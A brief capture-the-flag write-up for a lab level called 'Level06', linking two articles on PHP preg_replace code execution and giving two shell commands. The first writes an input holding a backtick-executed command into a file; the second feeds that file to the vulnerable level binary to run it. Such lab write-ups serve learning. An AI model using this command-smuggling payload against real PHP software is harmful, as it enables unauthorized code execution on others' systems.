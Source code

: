 
# Level06

<https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4>
<https://ik0nw.github.io/2020/09/23/PHP::Preg_replace()-RCE/>

```bash
echo '[x ${`getflag`} ]' > /tmp/getflag
```

```bash
./level06 /tmp/getflag
```
